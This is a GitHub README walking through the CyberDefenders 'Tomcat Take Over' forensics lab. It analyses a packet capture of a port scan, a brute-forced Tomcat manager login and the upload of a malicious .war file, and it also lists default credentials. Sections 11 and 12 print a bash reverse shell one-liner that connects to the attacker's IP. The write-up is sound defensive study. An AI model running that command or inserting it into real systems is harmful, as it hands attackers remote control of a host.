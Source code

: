 # 🐱 Tomcat Take Over Lab – CyberDefenders Walkthrough

This project is a full investigation of the **Tomcat Take Over** PCAP challenge on [CyberDefenders.org](https://cyberdefenders.org). It simulates a real-world web server compromise via Apache Tomcat.

I have documented each step I took in this repo to represent the steps I used to analyze and investigate the PCAP file, extract evidence, and answer key forensic questions.

![Scenario](https://github.com/mbergin123/Tomcat-Takeover-Lab/blob/main/images/1-1.png?raw=true)

---

## 🛠️ Tools Used

- **Wireshark** – PCAP packet analysis  
- **CyberChef** – Base64 decoding  
- **AbuseIPDB** – IP geolocation  
- **Notepad** – File inspection  
- **PowerShell** – File hashing  
- **Google / OSINT** – Tomcat version lookup  
- **ChatGPT** – Reverse shell decoding  

---

## 🧪 Analysis Steps

### 1. Initial Review in Wireshark  
![Wireshark](https://github.com/mbergin123/Tomcat-Takeover-Lab/blob/main/images/2-1.png?raw=true)

![Noted](https://github.com/mbergin123/Tomcat-Takeover-Lab/blob/main/images/4-1.png?raw=true)

Opened the PCAP and noted time range: 14 minutes and 30 seconds. Total packets captured: **21,070**.

---

### 2. Protocol & Traffic Overview  
![Protocol-Hierarchy](https://github.com/mbergin123/Tomcat-Takeover-Lab/blob/main/images/5-1.png?raw=true)  

![Conversations](https://github.com/mbergin123/Tomcat-Takeover-Lab/blob/main/images/6-1.png?raw=true)

Analyzed Protocol Hierarchy and Conversation statistics. Noted key IP pair: `14.0.0.120 ↔ 10.0.0.112` as top 'talker'.

---

### 3. Port Activity & Suspicious Files  

![Ports](https://github.com/mbergin123/Tomcat-Takeover-Lab/blob/main/images/7-1.png?raw=true)

![PDFs](https://github.com/mbergin123/Tomcat-Takeover-Lab/blob/main/images/8-1.png?raw=true)

![Hashed-file1](https://github.com/mbergin123/Tomcat-Takeover-Lab/blob/main/images/9-2.png?raw=true)

Observed traffic on ports: **8080, 22, 445, 80, 443**. Identified two PDFs: `work_request2024.pdf` – hashed and verified via VirusTotal.

---

### 4. SSH and HTTP Activity  
![SSH-Activity](https://github.com/mbergin123/Tomcat-Takeover-Lab/blob/main/images/10-1.png?raw=true) 

![HTTP-Activity](https://github.com/mbergin123/Tomcat-Takeover-Lab/blob/main/images/11-1.png?raw=true)

Noted early SSH packets (starting at packet 137), first HTTP activity from packet 685. Followed the HTTP stream.

---

### 5. Signs of SYN Scan  

![SYN-Scan](https://github.com/mbergin123/Tomcat-Takeover-Lab/blob/main/images/14-1.png?raw=true)  

IP `14.0.0.120` displayed numerous SYN requests — likely performing a port scan.

---

### 6. Identifying Open Ports  

![Open-ports](https://github.com/mbergin123/Tomcat-Takeover-Lab/blob/main/images/15-1.png?raw=true)  

I discovered pen ports on Apache Tomcat server: **22, 8080, 8009**.

---

### 7. POST Requests and File Upload  

![POST](https://github.com/mbergin123/Tomcat-Takeover-Lab/blob/main/images/15-1.png?raw=true)  

![POST-HTTP-Stream](https://github.com/mbergin123/Tomcat-Takeover-Lab/blob/main/images/18-1.png?raw=true)

Spotted suspicious POST with `.war` file named `JXQOZY.war`, indicated by ZIP header (PK).

---

### 8. Tomcat Admin Access Attempt 

![401/Get](https://github.com/mbergin123/Tomcat-Takeover-Lab/blob/main/images/19-2.png?raw=true)  

HTTP 401 errors and repeated `GET` requests to `/manager/html` endpoint , I realized this was a login page and there is an indication of brute-force login attempts.

---

### 9. Decoding Credentials  

![Authorization-Code](https://github.com/mbergin123/Tomcat-Takeover-Lab/blob/main/images/22-1.png?raw=true)  

![CyberChef](https://github.com/mbergin123/Tomcat-Takeover-Lab/blob/main/images/22-2.png?raw=true)

Decoded base64 strings like `YWRtaW46YWRtaW4=` with CyberChef – revealed default credentials like `admin:admin`. This confirmed my brute force suspicions.

---

### 10. Successful Login  

![Successful](https://github.com/mbergin123/Tomcat-Takeover-Lab/blob/main/images/23-1.png?raw=true)  

Found successful login with credentials `admin:tomcat`.

---

### 11. Execution of Reverse Shell  

![Shell-execution](https://github.com/mbergin123/Tomcat-Takeover-Lab/blob/main/images/25-2.png?raw=true)  

Discovered shell execution command:  
`/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'`

---

### 12. Crontab Entry for Persistence  

![Port-execution](https://github.com/mbergin123/Tomcat-Takeover-Lab/blob/main/images/26-1.png?raw=true) 

I was unfamiliar with this command ‘/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'" so I used the help of ChatGPT. Post-exploitation behavior included a scheduled crontab task for maintaining access.

---

## 🧩 Challenge Questions & Answers

1. **Attacker's IP Address:** `14.0.0.120`  
2. **Origin Country:** China (verified via AbuseIPDB)  
3. **Port for Admin Panel:** `8080`  
4. **Enumeration Tool Used:** Gobuster (`user-agent: gobuster/3.6`)  
5. **Admin Directory Discovered:** `/manager/html`  
6. **Successful Login Credentials:** `admin:tomcat`  
7. **Malicious File Name:** `JXQOZY.war`  
8. **Persistence Mechanism:** Crontab entry running a reverse shell command

---

## ✅ Conclusion

This lab simulated an end-to-end web server compromise through Apache Tomcat. The attacker performed a scan, brute-forced admin credentials, uploaded a `.war` reverse shell, and established persistence. Each step was documented with evidence from the PCAP file.

This project strengthened my skills in packet analysis, threat detection, and red team methodology — with a strong focus on documentation and forensic accuracy.

---

